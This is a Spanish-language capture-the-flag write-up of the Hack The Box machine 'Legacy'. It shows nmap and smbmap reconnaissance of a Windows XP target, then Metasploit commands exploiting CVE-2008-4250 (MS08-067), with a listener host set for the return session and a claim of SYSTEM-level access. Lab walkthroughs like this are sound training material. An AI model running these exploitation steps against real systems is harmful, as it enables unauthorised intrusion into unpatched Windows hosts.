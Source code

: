 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 10/10/2017'
---
```


# Legacy

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.4
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.4
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 135 (MS RPC):** Este puerto es utilizado para la comunicación de servicios como DCOM y MSRPC. Puede ser vulnerable a exploits si no está debidamente asegurado. Puedes buscar si hay alguna versión vulnerable de MSRPC, como las que se vieron con ataques como MS08-067.
* **Puerto 139 y 445 (SMB):** Ambos puertos están asociados a servicios de compartición de archivos y recursos en redes Windows. Los vectores de ataque conocidos incluyen ataques de SMB Relay y exploits como EternalBlue (CVE-2017-0144). Es recomendable realizar un escaneo de vulnerabilidades para verificar si estos puertos son accesibles desde fuera y si están expuestos a vulnerabilidades conocidas.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 10.10.10.4
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos el protocolo SMB.

```bash
smbmap -H 10.10.10.4
```

No vemos nada. Revisamos si tiene un CVE.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Al ser un Windows XP y revisando por internet encontramos que hay un **CVE-2008-4250** por lo que abrimos Metasploit para explotarlo.

```bash
search CVE-2008-4250
use 0
show options
set RHOSTS 10.10.10.4
set LHOST 10.10.14.7
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
getuid
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Somos **root**.

<figure><img src="../../.gitbook/assets/image (1232).png" alt=""><figcaption></figcaption></figure>
